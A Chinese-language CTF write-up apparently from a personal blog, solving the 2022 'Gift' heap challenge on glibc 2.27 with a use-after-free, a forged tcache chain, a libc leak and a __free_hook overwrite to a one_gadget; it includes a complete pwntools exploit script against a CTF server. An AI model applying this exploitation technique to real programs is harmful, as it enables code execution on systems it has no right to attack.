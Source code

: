 ```yaml
---
title: Practice
date: 2023-11-04 20:09:23
tags:
 - "glibc"
---
```


# Practice:

一些平常联系的记录，不能摆烂了（x

## 巅峰极客2022Gift

libc2.27，很好的一道题（我不会

首先在remove_gift()中存在uaf漏洞

![1699100065220](../images/1699100065220.png)

限制了add的次数是10次，常规的打法并不足够分配，这时我们注意到在另外一个bargain函数中可以控制堆块的fd，于是思路就很清晰了，通过控制fd，伪造出一条tcache的链子

### exp

```python
from pwn import*
# p = process("./service2")
p = remote("node4.anna.nssctf.cn", "28810")
menu = "your choice:\n"

def ChoiceGift(ch, payload):
    p.recvuntil(menu)
    p.sendline(str(2).encode())
    p.recvuntil(menu)
    p.sendline(str(ch).encode())
    p.recvuntil("plz write your wish on your gift!")
    p.send(payload)

def RemoveGift(idx):
    p.recvuntil(menu)
    p.sendline(str(3).encode())
    p.recvuntil("index?")
    p.sendline(str(idx))

def CheckGift(idx):
    p.recvuntil(menu)
    p.sendline(str(4).encode())
    p.recvuntil("index?")
    p.sendline(str(idx).encode())

def bargain(idx, money):
    p.recvuntil(menu)
    p.sendline(str(5).encode())
    p.recvuntil("index?")
    p.sendline(str(idx).encode())
    p.recvuntil("much?")
    p.sendline(str(money).encode())

# context.log_level = "debug"
ChoiceGift(1, "aaaaaaaa")
ChoiceGift(1, "aaaaaaaa")

RemoveGift(0)
RemoveGift(1)
CheckGift(1)
p.recvuntil("cost: ")
heap = int(p.recvline()) - 0x260

ChoiceGift(1, b"\x00"*0x10+p64(heap+0x400)+b"\x00"*0x68+p64(heap+0x410))
ChoiceGift(1, p64(heap+0x390))

RemoveGift(0)
RemoveGift(1)
bargain(1, -0x10)

ChoiceGift(1, "aaaaaaaa")
ChoiceGift(1, "bbbbbbbb")
ChoiceGift(1, "cccccccc")

RemoveGift(0)
CheckGift(0)

p.recvuntil("cost: ")
libc_base = int(p.recvline()) - 0x3ebca0
print(hex(libc_base))
ChoiceGift(1,p64(libc_base + 0x3ed8d8)) #__free_hook
ChoiceGift(1, "\n")
ChoiceGift(1,p64(libc_base + 0x4f302)) # one_gadget

RemoveGift(1)

p.interactive()
```

### 调试

前面的泄露函数基地址较为简单，主要是后面伪造tcache链的情况比较复杂

我们能修改的是某一个chunk的fd，并且在tcache中是以fd进行连接的，所以我们可以对tcache链进行伪造，比如

```
tcache -> fdA -> fdB
```

我们利用bargain函数修改fdA，就可以完成

```
tcachge -> fdHacked -> fdC ->fdD -> fdF ->fdG ->fdH
```

这样子就可以完成了，并且我们往tcache里面分配了这么多chunk，拿出两个以上就会使得tcache的idx变成负数，这样子就会把chunk放到unsortedbin里面了，这样子就可以获取libc基地址了，下面我们算一下我们要伪造几个chunk

- 首先，肯定需要三个以上，于是我们先拿出三个

  ```
  tcachge ->  fdF ->fdG ->fdH
  ```

- 这时候我们再remove一个已经分配的chunk，这样子的话就可以在unsortedbin里面获得libc

- 接着我们再申请fdF，tcache里面剩下的是

  ```
  tcachge -> fdG ->fdH
  ```

- 如果使得申请fdF写入的地方和fdG是一块地方，就可以接着申请到我们写入的内容，这样子的话我们就可以把在fdH的地方任意写

- 综上，我们需要伪造一个 _{fdHacked -> fdC ->fdD -> fdF ->fdG_ 的结构

正常的结构如下

![img](../images/2b314e42bae5b471fbb2b4dd7ecf8c0c-1699151692781.png)

所以我们通过+0x10，形成 370 -> 270 -> 390 -> 400 -> 410

最终申请400堆块，通过edit，在0x410的位置写入 __ free_hook - 0x10， 再申请0x410位置的chunk，之后再申请就可以修改 __free_hook了。

